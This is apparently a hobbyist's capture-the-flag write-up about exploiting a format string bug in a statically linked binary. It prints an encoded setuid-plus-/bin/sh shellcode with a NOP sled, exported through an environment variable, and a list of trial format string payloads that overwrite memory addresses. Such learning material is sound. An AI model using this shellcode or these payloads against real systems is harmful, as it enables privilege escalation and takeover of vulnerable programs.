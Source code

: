 wut ?

What felt like 12 days of reading, and video watching (Fuzzy Security videos are the best - check [this one out for formatstr vuln explanation](https://www.youtube.com/watch?v=NwzmYSlETI8) and the [follow up](https://www.youtube.com/watch?v=CHrs30g-3O0)) I still felt none the wiser.  But I figured I'd give it a go anyway.  What's the worst that can happen ?  I can't make it any more wrong now can I ?

Meh, let's put our shellcode (setuid plus /bin/sh) into memory anyway, just so it looks like we're progressing.


``` bash
export SHELLCODE=$(python -c 'print "\x90" * 1000 + "\x89\xe7\xda\xc3\xd9\x77\xf4\x5f\x57\x59\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x43\x43\x43\x43\x43\x43\x37\x51\x5a\x6a\x41\x58\x50\x30\x41\x30\x41\x6b\x41\x41\x51\x32\x41\x42\x32\x42\x42\x30\x42\x42\x41\x42\x58\x50\x38\x41\x42\x75\x4a\x49\x75\x61\x4b\x6b\x51\x7a\x42\x37\x56\x38\x68\x4d\x6d\x50\x43\x5a\x64\x4b\x33\x68\x6a\x39\x36\x32\x35\x36\x51\x78\x44\x6d\x61\x73\x6e\x69\x79\x77\x33\x58\x34\x6f\x31\x63\x32\x48\x73\x30\x43\x58\x54\x6f\x53\x52\x51\x79\x62\x4e\x6f\x79\x7a\x43\x43\x62\x38\x68\x77\x78\x63\x30\x43\x30\x55\x50\x36\x4f\x50\x62\x51\x79\x52\x4e\x66\x4f\x42\x53\x30\x68\x55\x50\x46\x37\x53\x63\x6d\x59\x49\x71\x7a\x6d\x4f\x70\x41\x41"')
```


So, I started to play around with gdb and format strings.
There are several ways you can do format string vulnerabilities - you can put your shellcode in memory using an environment variable, then overwrite a global offset table entry to execute your code (as per the videos), or if you're unlucky like me and have a statically linked binary, you have to find another way such as jumping to a location in the stack. I tried that... it didn't work because my shellcode kept moving in memory.

![](http://media.tumblr.com/201153f420ed4a2ca50fadbcfabacce3/tumblr_inline_n1mltcP4Bf1ss9nq4.gif)

Apparently, though, you can overwrite entries in the .dtor part of the binary - don't ask me what .dtor is, but I had great fun gradually overwriting random memory locations and crashing the application over and over and over again... 

Here are some of the format strings I fabricated while on my journey - you can get an idea of my thought pattern and the things I tested.  It's also pretty obvious when I went back to basics about 7 attempts in.

[plain]
$(python -c 'print "\x5c\xf8\xff\xbf"')-%64362u-%116\$n
$(python -c 'print "AAAA"')-%64362u-%117\$n.
$(python -c 'print "\x14\x96\x0c\x08"')%64362u-%119\$n.
$(python -c 'print "\x5c\xf8\xff\xbf" + "\x5e\xf8\xff\xbf"')-%64362u-%4\$n-%5\$n
$(python -c 'print "\x5c\xf8\xff\xbf"')-%116\$n.
$(python -c 'print "AAAA"')%117\$x
%64364u$(python -c 'print "\x14\x96\x0c\x08"')%119\$n.
$(python -c 'print "\x14\x96\x0c\x08" + "\x16\x96\x0c\x08"')AAABBBB%49136u%120\$hn%15217u%119\$hn
$(python -c 'print "\x14\x96\x0c\x08" + "\x16\x96\x0c\x08"')AABB-%00001c%116\$.x%00001c%114\$.x
$(python -c 'print "\x14\x96\x0c\x08" + "\x16\x96\x0c\x08"')AABBBB%49134u%113\$hn%15217c%112\$hn
$(python -c 'print "\x14\x96\x0c\x08" + "\x16\x96\x0c\x08"')AABBBB%49134u%118\$hn%15217u%117\$hn
$(python -c 'print "\x14\x96\x0c\x08" + "\x16\x96\x0c\x08"')AAAB%49139u%118\$hn%15217c%117\$hn
$(python -c 'print "\x14\x96\x0c\x08" + "\x16\x96\x0c\x08"')AAABBBB%49136u%120\$hn%15217c%119\$hn
